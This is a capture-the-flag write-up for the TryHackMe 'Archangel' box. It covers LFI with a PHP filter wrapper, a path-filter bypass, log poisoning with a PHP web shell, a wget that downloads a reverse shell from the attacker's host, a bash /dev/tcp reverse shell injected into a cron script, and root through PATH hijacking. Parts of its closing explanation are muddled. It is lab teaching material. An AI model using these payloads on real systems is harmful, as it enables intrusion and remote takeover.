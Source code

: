 ```yaml
---
layout: post
title: Archangel
categories: [Tryhackme, Easy-THM]
tags: [nmap, LFI, Reverse shell]
image: https://i.ibb.co/172sMbW/archangel.jpg
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

## NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

## LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.

![](https://i.ibb.co/kQRKnYg/wfuzz.png)

And we get a hit for **robots.txt**. which when we visit the page looks something like this.

![](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.

![](https://i.ibb.co/cJPSy3b/control.png)

We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
## Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

## SHELL
So we are going to get a sample php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next, we are going to set up a python server on our machine. 
Next, we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machine.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![](https://i.ibb.co/gzQvS34/nc.png)


## Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

![](https://i.ibb.co/qFqjRB3/archangel.png)

Then run another listener and wait for a minute. Coffee break.

## ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened. This is gonna be crazy but heck.

 1. **echo '/bin/bash -p' > cp**: This command redirects the output of the `echo` command, which is the string `'/bin/bash -p'`, into a file named `cp`. The content of the `cp` file will be `/bin/bash -p`.

 2. **chmod 777 cp**: This command changes the permissions of the `cp` file to allow all users to read, write, and execute it. The `chmod` command is used to modify file permissions, and `777` is a symbolic representation that grants all permissions to the owner, group, and others.

 3. **export PATH=/home/archangel/secret:$PATH**: This command adds a directory called `/home/archangel/secret` to the beginning of the `PATH` environment variable. The `PATH` variable contains a list of directories that the shell searches for executable files. By adding `/home/archangel/secret` at the beginning, any executable file in that directory will take precedence over files with the same name in other directories listed in `PATH`.

 4. **echo $PATH**: This command displays the value of the `PATH` environment variable. After the previous `export` command, it will show `/home/archangel/secret` followed by the original directories that were part of `PATH`.

 5. **./backup**: This command attempts to execute a file named `backup` in the current directory. The `./` prefix indicates that the file should be executed from the current directory instead of searching for it in the directories listed in `PATH`. If the `backup` file exists and has executable permissions, it will be run with the elevated privileges specified in step 1 (`/bin/bash -p`).

Overall, these commands create a file called `cp` with elevated permissions, modify the `PATH` environment variable to prioritize a specific directory, and execute a file named `backup` with elevated privileges. The exact consequences and implications of these actions depend on the specific context and contents of the `backup` file.

And yes we are root.
![](https://i.ibb.co/tCf2k5W/root.png)

## RESOURCES
[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Okay honestly that was a great learning experience for me and I hope it is the same for you. 
Happy hacking :)

